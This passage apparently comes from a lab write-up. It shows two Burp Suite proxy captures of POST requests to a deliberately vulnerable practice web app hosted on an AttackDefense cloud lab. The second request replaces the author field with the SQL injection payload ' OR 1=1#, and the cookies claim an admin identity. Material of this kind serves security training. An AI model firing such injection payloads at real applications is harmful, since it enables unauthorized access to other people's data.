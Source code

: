 `burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=view-someones-blog.php📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=view-someones-blog.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

author=john&view-someones-blog-php-submit-button=View+Blog+Entries📌
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=view-someones-blog.php📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=view-someones-blog.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

author=' OR 1=1#&view-someones-blog-php-submit-button=View+Blog+Entries📌
```
